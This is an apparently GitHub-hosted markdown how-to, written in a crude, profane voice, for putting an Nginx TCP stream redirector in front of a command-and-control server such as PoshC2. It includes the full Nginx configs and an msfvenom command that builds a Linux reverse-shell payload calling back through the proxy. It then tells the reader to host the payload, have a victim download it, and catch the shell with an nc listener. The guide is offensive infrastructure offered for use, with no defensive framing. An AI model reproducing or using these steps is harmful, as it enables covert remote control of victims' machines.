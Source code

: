 # Setting up Nginx for TCP proxy 

1. First off this shit is stupid, nginx only knows how to deal with HTTP traffig and beacon traffic can sometimes be encrypted by defualt making it hard for Nginx to deal with. There for we are going to have to not only set up our `proxy_reverse` but also configure TCP on the server if we want COMs to work all the way with out the use of ssl certs
2. To start lests install Nginx
    ```bash
    sudo apt install nginx 
    ```
3. Now lets modify our config file which might no exist 
    ```bash 
    sudo vim /etc/nginx/conf.d/lp_proxy.conf
    ```
4. Paste the follwing in `lp_proxy.conf`
    ```nginx
    server {
        listen 80;
        listen [::]:80;

        server_name <serverIP-OR-ServerDNSname>;

        location / {
            proxy_pass http://<parrot-c2-ip>;
        }
    }
    ```
4. Now lets add the TCP rules to allow us to handle the beacons
    ```bash
    sudo vim /etc/nginx/nginx.conf
    ```
5. Paste the following Bellow `http {...}` section
    ```nginx
    stream {
        log_format posh '$remote_addr [$time_local] '
        '$protocol $status $bytes_sent $bytes_received '
        '$session_time "$upstream_addr" '
        '"$upstream_bytes_sent" "$upstream_bytes_received" "$upstream_connect_time"';
    
        server {
            listen 8080;

            proxy_pass <Parrot-IP>:80;

            access_log /var/log/nginx/tcp_access.log posh;
            error_log /var/log/nginx/tcp_error.log;

        }


    }
    ```
6. Now lets reload Nginx with the new config files
    ```bash 
    sudo systemctl restart nginx.service
    ```
7. From here we can now create a msfvenom shell or poshc2 with the correct ports set in the TCP section in the example we have `8080` 
    ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=<proxy-ip> LPORT=8080 -a x64 -f elf > yup.elf
    ```
    > **NOTE:** Follow the same setup if you are using poshc2 for you bind port, probably 
8. Host your payload however and download on victim 
9. Now if you are running msfvenom start you `nc` listener to catch your beacon.
    ```bash
    sudo nc -lnvp 80
    ```
10. tada you have a beacon shelley, fuck you.